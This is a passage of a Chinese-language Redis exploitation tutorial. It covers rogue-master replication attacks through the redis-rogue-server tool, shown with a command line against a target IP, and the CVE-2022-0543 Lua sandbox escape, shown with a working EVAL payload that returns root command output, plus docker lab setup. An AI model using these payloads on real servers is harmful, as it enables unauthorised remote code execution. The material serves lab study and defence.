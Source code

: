 `FULLRESYNC` 是 Redis 主从复制（Replication）中的**全量同步协议**，当从节点（Replica）首次连接主节点（Master）或无法进行增量同步时触发。该机制确保从节点获得完整的数据集副本，是保证数据一致性的核心流程。

可利用版本：`<=5.0.14`，在高版本中，由于 Redis 创建的文件权限为`600`，没有执行权限，提示错误 `Module /data/exp.so failed to load: It does not have execute permissions`。

[redis-rogue-server](https://github.com/Dliv3/redis-rogue-server) 是一种针对未授权访问 Redis 服务器的攻击手法，攻击者通过伪造恶意主节点（Master），诱导目标 Redis 服务器（作为从节点）同步恶意数据，最终实现远程代码执行（RCE）。

```bash
python3 redis-rogue-server.py --rhost 192.168.200.1 --rport 6379 --lhost 192.168.200.134
```

<https://paper.seebug.org/975/>

## Redis Lua沙盒绕过命令执行（CVE-2022-0543）

Redis 在 Debian/Ubuntu 发行版的打包过程中，错误地将 Lua 库（liblua）与 Redis 主程序动态链接，攻击者可通过 Redis 的 EVAL 或 EVALSHA 命令执行恶意 Lua 脚本，利用 package 模块加载外部库，最终实现 远程代码执行（RCE）。

官方 Redis 源码编译版本不受影响。

### 环境搭建

```bash
cd vulhub/redis/CVE-2022-0543
docker compose up
```

### 漏洞利用

```bash
127.0.0.1:6379> EVAL 'local io = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
"uid=0(root) gid=0(root) groups=0(root)\n"
```

### 参考资料

- <https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce>
- <https://github.com/vulhub/vulhub/blob/master/redis/CVE-2022-0543/README.zh-cn.md>

## 结合 SSRF

### 环境搭建

```bash
# 构建镜像
docker build . -t redis-rocky

# 运行容器
docker run --name redis-rocky -d -p 8081:8080 -p 8022:22 -p 6379:6379 redis-rocky

# 进入容器
docker exec -it redis-rocky /bin/bash
```
